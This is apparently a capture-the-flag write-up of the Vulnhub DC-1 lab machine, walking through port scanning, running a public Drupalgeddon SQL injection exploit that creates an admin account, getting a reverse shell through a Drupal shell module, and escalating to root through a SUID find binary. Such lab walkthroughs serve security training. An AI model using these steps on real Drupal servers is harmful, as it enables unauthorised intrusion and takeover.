 ```yaml
---
title: Vulnhub DC 1 Writeup
published: true
---
```



![image](https://user-images.githubusercontent.com/67688572/181760604-5cd1df68-4e97-4182-932a-fa0a0f4c2276.png)

> Download Link: https://www.vulnhub.com/entry/dc-1,292/ 

#### Preliminary Scan Results

## Rustscan
```
rustscan -a TARGETIP
```
![image](https://user-images.githubusercontent.com/67688572/181762153-50962ef4-305b-4a9f-bc20-5da6551d7fa2.png)

## Nmap
```shell
meta@metavm:dc1$ sudo nmap -A -p 22,80,111,60596 192.168.100.207
[sudo] password for meta: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-29 12:26 +04
Nmap scan report for 192.168.100.207
Host is up (0.00023s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          36686/tcp6  status
|   100024  1          49004/udp6  status
|   100024  1          54614/udp   status
|_  100024  1          60596/tcp   status
60596/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:F2:E3:84 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
```

## Web

From the nmap scan, we are aware of `robots.txt` file, so let’s have a look

![image](https://user-images.githubusercontent.com/67688572/181763097-e52e2032-0be7-48bc-96b5-4d06e7ecf0ac.png)

*`Drupal CMS`* is used on the website. We can also get further information with [droopescan](https://github.com/SamJoan/droopescan) tool

## Searchsploit

#### searchsploit results for drupal version 7

![image](https://user-images.githubusercontent.com/67688572/181764595-015ce666-4c2e-40f9-a65b-e27080f8c2df.png)

Let’s look at *‘Drupalgeddon’ SQL Injection (Add Admin User)/34992.*

We can create our own admin account and log into the web application:

```bash
meta@metavm:dc1$ python2 /usr/share/exploitdb/exploits/php/webapps/34992.py -u stevem -p stevemindahouse -t http://192.168.100.207/

  ______                          __     _______  _______ _____
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |
 |:  1    /          |__|                 |   |  |:  1   | |:  |
 |::.. . /                                |   |  |::.. . | |::.|
 `------'                                 `---'  `-------' `---'
  _______       __     ___       __            __   __
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|
 |::.. . |            |::.|
 `-------'            `---'

                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

			  Discovered by:

			  Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww


[!] VULNERABLE!

[!] Administrator user created!

[*] Login: stevem
[*] Pass: stevemindahouse
[*] Url: http://192.168.100.207//?q=node&destination=node

```
Successfully logged in!

![image](https://user-images.githubusercontent.com/67688572/181765685-786dd42f-f397-4948-b675-e8d7fd22a6aa.png)

Next step is to find a location to upload our shell script

In order to get a reverse shell we can download and install new `SHELL` module.
> https://www.drupal.org/project/shell 

![image](https://user-images.githubusercontent.com/67688572/181766387-fa56912c-c228-4e1b-9fd8-13240fb16e34.png)

Install and activate the module from _Modules_ panel as shown below

![image](https://user-images.githubusercontent.com/67688572/181766652-4491bfd6-ad22-4075-8fe3-b9f530e39795.png)

![image](https://user-images.githubusercontent.com/67688572/181766672-1315166f-7838-447a-9fa4-d3928d5d9234.png)

Move to the http://TARGETIP/shell and now we can get a reverse shell.

![image](https://user-images.githubusercontent.com/67688572/181767185-4674f2db-d18f-44a3-8b36-c609cc50582f.png)

### Flag 1

![image](https://user-images.githubusercontent.com/67688572/181767322-40421ecd-e57a-40eb-9d24-82378a38bc25.png)

### Flag 2

![image](https://user-images.githubusercontent.com/67688572/181767487-b8f17d80-e645-4471-94d6-b2ca88eda131.png)

### Flag 3
Was on the website

![image](https://user-images.githubusercontent.com/67688572/181767537-6fe72f0f-7a80-416a-b562-6b065f88950e.png)

### Flag 4
Under `/home` directory

![image](https://user-images.githubusercontent.com/67688572/181767631-04f885f4-8491-49bb-9772-8ef61c63ec60.png)

## Privilege Escalation

Find all programs which have the SUID bit set with the following command

```shell
find / -perm -u=s -type f 2>/dev/null
```
![image](https://user-images.githubusercontent.com/67688572/181768249-be0f9413-329e-4bdc-8d1f-4b87a64916d3.png)


Look for the relevant exploit on [GTFOBins](https://gtfobins.github.io/gtfobins/find/)

### Flag 5

![image](https://user-images.githubusercontent.com/67688572/181768840-ab84c85c-0f1c-4f91-b432-c4f758cbb410.png)


<br><br>

#### And we got the ROOT!

![kr](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fmedia1.tenor.com%2Fimages%2F7ddec77eab353edfb4304957ed260050%2Ftenor.gif%3Fitemid%3D11966355&f=1&nofb=1)